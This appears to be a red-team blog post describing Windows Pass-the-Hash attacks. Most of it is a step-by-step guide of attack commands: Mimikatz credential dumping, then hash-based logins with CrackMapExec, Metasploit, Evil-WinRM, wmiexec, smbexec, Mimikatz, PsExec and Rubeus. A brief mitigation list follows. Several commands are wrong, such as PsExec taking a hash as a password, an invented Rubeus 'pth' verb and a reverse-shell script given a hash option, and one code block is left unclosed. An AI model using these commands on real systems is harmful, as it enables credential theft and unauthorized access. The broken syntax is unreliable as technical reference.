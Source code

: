 ```yaml
---
layout: blog
title: "Pass-the-Hash Attack: An In-Depth Look with Examples and Commands"
tags: redteaming c2
comments: true
date: 2023-04-08
---
```


# Pass-the-Hash Attack: An In-Depth Look with Examples and Commands

Pass-the-Hash (PtH) is a well-known attack technique that targets Windows authentication systems. It enables attackers to use a user's password hash, instead of the plain-text password, to authenticate to network resources. In this blog post, we will dive into the details of this attack, discuss examples and commands, and provide a real-world attack scenario.

## Understanding Pass-the-Hash

Windows systems primarily use two types of authentication protocols: NTLM (NT LAN Manager) and Kerberos. Both protocols store password hashes, which are fixed-length representations of a user's password. When a user logs in, Windows checks the entered password's hash against the stored hash. If they match, the user is granted access.

In a PtH attack, the attacker captures a user's password hash and uses it to authenticate to network resources as the targeted user, without needing to know the plain-text password. This allows the attacker to bypass many security controls and gain unauthorized access to sensitive data.
<br/>
## How to Perform a Pass-the-Hash Attack

Here is a step-by-step guide to performing a PtH attack, including the tools and commands:

1. **Capture the password hash**: The first step is to obtain the target user's password hash. This can be done using various methods, such as dumping hashes from the Security Account Manager (SAM) database or extracting hashes from a system's memory using tools like Mimikatz.

Example command using Mimikatz:
```bash
mimikatz.exe privilege::debug sekurlsa::logonpasswords


<br/>
2. **Use the captured hash for authentication**: Once the password hash is obtained, the attacker can use it to authenticate to network resources. Tools like PsExec or CrackMapExec can be used to perform PtH attacks.

### For Kali Linux/Linux

+ **Impacket (pth-winexe)**
```bash
pth-winexe -U TARGET_DOMAIN/USER%NTLM_HASH //TARGET_IP cmd
```
+ **Impacket (secretsdump.py)**
```bash
python3 secretsdump.py -ntds TARGET_DOMAIN/USER:PASSWORD@TARGET_IP
```
+ **CrackMapExec**
```bash
crackmapexec smb TARGET_IP -u USER -H NTLM_HASH
```
+ **Metasploit Framework (auxiliary module: smb_login)**
```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS TARGET_IP
set SMBDomain TARGET_DOMAIN
set SMBUser USER
set SMBPass NTLM_HASH
run
```
+ **Evil-WinRM**
```bash
evil-winrm -i TARGET_IP -u USER --hash NTLM_HASH
```
+ **Wmiexec**
```bash
wmiexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```
+ **Smbexec**
```bash
smbexec.py -hashes LM_HASH:NTLM_HASH TARGET_DOMAIN/USER@TARGET_IP
```

### For Windows

+ **Mimikatz**
```bash
mimikatz.exe "sekurlsa::pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /run:cmd.exe" "exit"
```

+ **PowerShell Empire**
```bash
.\Invoke-PowerShellTcp.ps1 -Hash NTLM_HASH -Username USER -Domain TARGET_DOMAIN -IPAddress TARGET_IP
```

+ **PsExec**
```bash
psexec.exe \\TARGET_IP -u TARGET_DOMAIN\USER -p NTLM_HASH cmd.exe
```
+ **Rubeus**
```bash
Rubeus.exe pth /user:USER /domain:TARGET_DOMAIN /ntlm:NTLM_HASH /target:TARGET_IP
```


## Conclusion

Pass-the-Hash attacks are dangerous because they exploit inherent weaknesses in Windows authentication mechanisms. To defend against PtH attacks, organizations should adopt a multi-layered security approach, including:

- Implementing privileged access management (PAM)
- Regularly patching and updating software
- Using strong, unique passwords
- Enabling security features like Credential Guard
- Restricting the use of administrative accounts

Understanding how Pass-the-Hash attacks work, along with effective mitigation strategies, is essential to protect your organization from unauthorized access and data breaches.
